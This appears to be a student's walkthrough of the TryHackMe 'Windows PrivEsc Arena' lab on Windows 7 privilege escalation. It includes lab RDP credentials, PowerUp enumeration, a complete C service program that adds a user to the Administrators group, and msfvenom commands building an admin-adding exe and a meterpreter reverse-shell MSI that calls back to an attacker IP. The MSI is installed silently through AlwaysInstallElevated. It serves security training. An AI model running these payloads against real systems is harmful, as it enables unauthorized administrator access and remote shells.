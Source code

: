 # THM - Windows PrivEsc Arena

Students will learn how to escalate privileges using a very vulnerable Windows 7 VM. RDP is open. Your credentials are user:password321

<figure><img src="../../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

connect rdp

```bash
rdesktop 10.10.50.130 -g 95%
```

PowerUp

```powershell
powershell.exe -ep bypass 
import-module powerup.p1
invoke-AllChecks
```

<figure><img src="../../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

```
lcacls.exe <path.exe>
```

<figure><img src="../../../../.gitbook/assets/image (157).png" alt=""><figcaption><p>"C:\Program Files\File Permissions Service\filepermservice.exe"</p></figcaption></figure>

Code C to make privesc in win7

### Service Escalation - Registry

#### Detection

```powershell
 Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

<figure><img src="../../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
Notice that the output suggests that user belong to “**NT** **AUTHORITY**\\**INTERACTIVE**” has “**FullContol**” permission over the registry key.
{% endhint %}

#### Exploitation

```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
        Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
}
```

```powershell
sc start filepermsvc
```

<figure><img src="../../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

To Delete user from group

```powershell
net localgroup Administrators user /DELETE 
```

Escalation va Unquoted Path

```bash
msfvenom -p windows/exec CMD='net localgroup Administrators user /add ' -f exe -o /home/h3ckt0r/tool/privesc/common.exe
updog -p 8080
```

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption><p>nqoted path</p></figcaption></figure>

### Registry Escalation - AlwaysInstallElevated

> 1.Open command prompt and type: **reg query**\
> **HKLM\Software\Policies\Microsoft\Windows\Installer** \
> 2.From the output, notice that “**AlwaysInstallElevated**” value is **1**
>
> <img src="../../../../.gitbook/assets/image (161).png" alt="" data-size="original">

{% code overflow="wrap" %}
```
 msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.0.213 -f msi -o setup.msi
```
{% endcode %}

1.Place ‘setup.msi’ in ‘C:\\**Temp**’.\
2.Open command prompt and type: **msiexec /quiet /qn /i C:\Temp\setup.msi**

<figure><img src="../../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

### Service Escalation - Executable Files



<figure><img src="../../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Service Escalation - DLL Hijacking



<figure><img src="../../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>
